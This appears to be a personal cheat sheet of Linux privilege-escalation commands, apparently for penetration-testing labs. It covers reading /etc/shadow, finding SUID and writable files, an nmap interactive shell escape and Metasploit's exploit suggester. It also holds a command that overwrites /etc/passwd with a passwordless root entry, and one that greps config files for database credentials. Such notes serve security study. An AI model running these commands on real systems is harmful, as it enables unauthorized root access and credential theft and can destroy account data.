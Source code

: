 
# Linux Privilage Escalation Notes

* **Guide**

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

* **General Command**

Kernel version detection & Priv Check:
```
cat /etc/issue
uname -a
cat /proc/version
cat /etc/shadow @Normal kullanıcı göremez
```

Find Suit & Guid Bit & Writeable Files
```
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
find / -perm -2 ! -type l -ls 2>/dev/null @Yazma yetkisi olan dosyalar
```

Try :)
```
sudo su
sudo -l
```

Edit passwd file 
```
echo root::0:0:root:/root:/bin/bash > /etc/passwd
su
```

Nmap permissions

```
sudo nmap --interactive
!id
!cat /root/proof.txt
```

Network connections

```
netstat -ano
```

Metasploit Exploit Suggester

```
run post/multi/recon/local_exploit_suggester
```

Find something

```
cat config.php | grep db
```






